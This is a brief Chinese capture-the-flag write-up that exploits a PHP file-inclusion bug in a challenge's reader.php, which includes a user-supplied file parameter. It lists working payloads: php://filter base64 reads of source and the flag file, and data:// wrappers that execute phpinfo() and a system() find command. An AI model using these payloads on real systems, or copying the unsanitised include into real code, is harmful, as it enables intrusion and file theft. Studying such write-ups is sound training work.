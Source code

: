 解法：

简单测试后发现存在 **LFI** 漏洞，并且也可以 **RFI**。不过在这里利用 LFI 即可

  1. 读取 _reader.php_ 源码：`?file=php://filter/convert.base64-encode/resource=reader.php` 
    <pre><code class="language-php line-numbers">&lt;strong&gt;
      &lt;?php
       $file = $_GET['file'];
       include($file);
      ?&gt;
&lt;/strong&gt;
</code></pre>

  2. 测试执行 PHP 代码成功 
    `?file=data:text/plain,<?php phpinfo()?>`

  3. 查找 flag 文件
    
    `?file=data:text/plain,<?php system("find / -name *flag* -type f");?>`

  4. 读 flag 文件
    
    `?file=php://filter/convert.base64-encode/resource=/var/www/html/i_wonder_whats_in_here/flag.php`

![11.png](https://i.loli.net/2020/05/29/t76DZN1FzCyY2au.png)